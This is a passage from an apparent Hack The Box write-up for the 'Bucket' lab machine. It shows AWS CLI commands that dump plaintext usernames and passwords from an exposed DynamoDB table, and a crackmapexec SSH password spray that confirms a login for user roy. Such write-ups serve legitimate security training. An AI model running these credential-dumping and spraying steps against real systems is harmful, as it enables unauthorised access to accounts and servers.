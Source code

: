 - But we can from the attack box
```
└─$ aws --endpoint-url http://s3.bucket.htb dynamodb list-tables
{
    "TableNames": [
        "users"
    ]
}
```
```
└─$ aws --endpoint-url http://s3.bucket.htb dynamodb scan --table-name users
{
    "Items": [
        {
            "password": {
                "S": "Management@#1@#"
            },
            "username": {
                "S": "Mgmt"
            }
        },
        {
            "password": {
                "S": "Welcome123!"
            },
            "username": {
                "S": "Cloudadm"
            }
        },
        {
            "password": {
                "S": "n2vM-<_K_Q:.Aa2"
            },
            "username": {
                "S": "Sysadm"
            }
        }
    ],
    "Count": 3,
    "ScannedCount": 3,
    "ConsumedCapacity": null
}
```
```
└─$ aws --endpoint-url http://s3.bucket.htb dynamodb scan --table-name users | jq -r '.Items[].password.S'
Management@#1@#
Welcome123!
n2vM-<_K_Q:.Aa2
```

- Find valid password
```
└─$ crackmapexec ssh 10.10.10.212 -u roy -p password.list
SSH         10.10.10.212    22     10.10.10.212     [*] SSH-2.0-OpenSSH_8.2p1 Ubuntu-4
SSH         10.10.10.212    22     10.10.10.212     [-] roy:Management@#1@# Authentication failed.
SSH         10.10.10.212    22     10.10.10.212     [-] roy:Welcome123! Authentication failed.
SSH         10.10.10.212    22     10.10.10.212     [+] roy:n2vM-<_K_Q:.Aa2 

```
